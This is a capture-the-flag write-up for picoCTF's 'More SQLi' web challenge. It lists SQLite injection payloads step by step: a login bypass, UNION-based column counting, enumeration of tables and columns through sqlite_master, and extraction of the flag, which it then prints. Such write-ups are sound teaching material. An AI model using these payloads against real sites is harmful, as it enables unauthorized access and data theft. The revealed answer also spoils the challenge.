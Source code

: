# **More SQLi**

## **Overview:**
---
Category: Web Exploitation

Points: 200

## **Description**
---
Can you find the flag on this website.
Additional details will be available after launching your challenge instance.

## **Hints**
None

## **Approach**

This challenge is about SQl Injection. In this case, it is Sqlite so i search about it and found a [cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md).

Follow these steps the flag:
```
1. Login page:
Username: Admin
Password: 1' or 1 = 1 --
2. Algiers' union select null,null,null --  : To find the number of attributes
3. Algiers ' union  select tbl_name, null,null FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --  : To find all the table names.
4. Algiers' union SELECT sql,null,null FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='more_table' --  : To find all the column/attributes of table 'more_table' (which contains the flags).
5. Algiers' union select null,null,flag from more_table --  : To get the flag.
```
Here is the picture of [it](flag.png).

## **Flag**
---
>**picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}**









